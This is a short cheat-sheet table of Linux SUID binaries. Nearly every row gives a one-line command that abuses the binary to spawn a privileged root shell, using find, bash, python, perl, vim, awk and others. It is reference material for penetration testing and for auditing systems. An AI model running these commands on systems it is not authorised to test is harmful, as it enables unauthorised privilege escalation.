 
https://cheatsheet.haax.fr/linux-systems/privilege-escalation/suid/
### Dangerous SUID Binaries to Look For

|Binary|Reason it's Dangerous|Exploit Idea|
|---|---|---|
|`/usr/bin/find`|Allows executing arbitrary commands via `-exec`|`find / -exec /bin/bash -p \; -quit`|
|`/bin/bash`|If SUID, run with `-p` to retain root|`/bin/bash -p`|
|`/bin/sh`|If symlink to `bash`, may work with `-p`|`/bin/sh -p`|
|`/usr/bin/perl`|Perl can be used to spawn a shell|`perl -e 'exec "/bin/bash";'`|
|`/usr/bin/python`|Python can be used to spawn a shell|`python -c 'import os; os.setuid(0); os.system("/bin/bash")'`|
|`/usr/bin/env`|Can execute another binary|`env /bin/bash -p`|
|`/usr/bin/vim`|Can spawn shell with `:!bash`|`vim -c '!bash'`|
|`/usr/bin/nmap`|Some versions have interactive shell|`nmap --interactive`|
|`/usr/bin/less`|If SUID, can be abused via `!sh`|Inside less, press `!sh`|
|`/usr/bin/awk`|Can spawn shell|`awk 'BEGIN {system("/bin/bash")}'`|